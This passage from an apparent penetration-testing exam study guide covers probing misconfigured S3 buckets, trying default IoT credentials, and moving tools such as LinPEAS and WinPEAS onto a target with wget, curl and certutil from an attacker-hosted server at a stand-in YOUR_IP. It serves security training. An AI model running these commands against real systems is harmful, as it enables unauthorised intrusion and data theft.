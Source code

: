 ## ☁️ Module 7: Cloud & IoT (Conceptual)

*   **Cloud (AWS S3):** Look for misconfigured, publicly readable buckets.
    ```bash
    # Curl a bucket
    curl http://s3.amazonaws.com/bucketname/

    # Use AWS CLI (if configured)
    aws s3 ls s3://bucketname/
    aws s3 cp s3://bucketname/secret.txt .
    ```
*   **IoT:** Default credentials are a major issue. Always try `admin:admin`, `root:root`, `admin:password`.

---

## 📤 Module 8: Data Exfiltration & File Transfers

A common exam task is to upload a tool (like WinPEAS/LinPEAS) to a target or download a flag file from it. The method depends on which services are available.

### Core Concept: The "Push" vs. "Pull" Method
*   **Push:** You host the file on your machine and the *target pulls* it down.
*   **Pull:** You upload the file from your machine to the target (often trickier and requires specific services).

### 1. Using HTTP/S (The Most Reliable Method)
This is often the easiest way. You host a simple web server on your attacking machine and use tools on the target to download the file.

**On Your Attacking Machine (Kali):**
```bash
# Python 3 (Best option)
python3 -m http.server 80      # Serve on port 80 (HTTP)
python3 -m http.server 443     # Serve on port 443 (HTTPS-like)

# Python 2 (if needed)
python2 -m SimpleHTTPServer 80
```

**On the Target Machine:**
*   **Linux Target (`wget`, `curl`):**
    ```bash
    wget http://YOUR_IP/linpeas.sh -O /tmp/linpeas.sh
    curl http://YOUR_IP/linpeas.sh -o /tmp/linpeas.sh
    ```
*   **Windows Target (`certutil`, `powershell`, `bitsadmin`):**
    ```cmd
    :: Certutil (Classic, but often flagged by AV now)
    certutil -urlcache -f http://YOUR_IP/winpeasany.exe winpeasany.exe
